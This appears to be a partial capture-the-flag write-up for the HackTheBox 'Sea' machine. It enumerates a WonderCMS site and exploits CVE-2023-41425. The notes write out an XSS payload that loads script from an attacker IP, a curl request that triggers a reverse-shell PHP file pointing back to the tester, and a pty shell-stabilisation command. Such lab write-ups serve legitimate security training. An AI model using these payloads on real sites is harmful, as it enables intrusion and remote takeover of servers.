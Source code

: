 Target:
10.10.11.28

**P-80**

Contact page with post form: http://sea.htb/contact.php

Looking at the source code of the main page i can see that it points to a picture of a bike.png, so i decide to fuzz that address: http://sea.com/themes/bike

```php
gobuster dir -w /usr/share/seclists/SecLists-master/Discovery/Web-Content/common.txt -u http://sea.htb/themes/bike -x txt,md
```

`/README.md            (Status: 200) [Size: 318]`

```php
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```

This reveals the CMS, so i'll look online for exploits.

**Exploit web-server:**

https://github.com/prodigiousMind/CVE-2023-41425

- Start a netcat session 
- Execute script and copy the payload into the contact form under website.

`http://sea.htb"></form><script+src="http://10.10.14.23:8000/xss.js"></script><form+action="`

- Now, after reading the exploit script we will find it create a shell file in this pass `{/themes/revshell-main/rev.php?lhost=” + ip + “&lport=” + port}`

- Wait for the http server to serve the exploit.
- Use curl to access the exploit.

```php
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.23&lport=9999'
```

_The original script will create a malicious URL like [http://sea.htb/wondercms/index.php?page=loginURL](http://sea.htb/wondercms/index.php?page=loginURL), which will not be correct. It should be [http://sea.htb/index.php?page=loginURL](http://sea.htb/index.php?page=loginURL) that we should change this in the exploit script, or simply provide [http://sea.htb/loginURL](http://sea.htb/loginURL) as the first parameter for the EXP._

Stabilise shell:

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Find user amay that has user.txt, but it's owned by root.

I'm having trouble so i may try a different exploit, or mix it up with tools. 
- Could have missed /bike in the `curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.23&lport=9999'`

```php
curl 'http://sea.htb/themes/bike/revshell-main/rev.php?lhost=10.10.14.23&lport=9999'
```

Which would also mean the exploit command would be:

```xml
python3 exploit.py http://sea.htb/themes/bike <HOST_IP> <HOST_PORT>
```

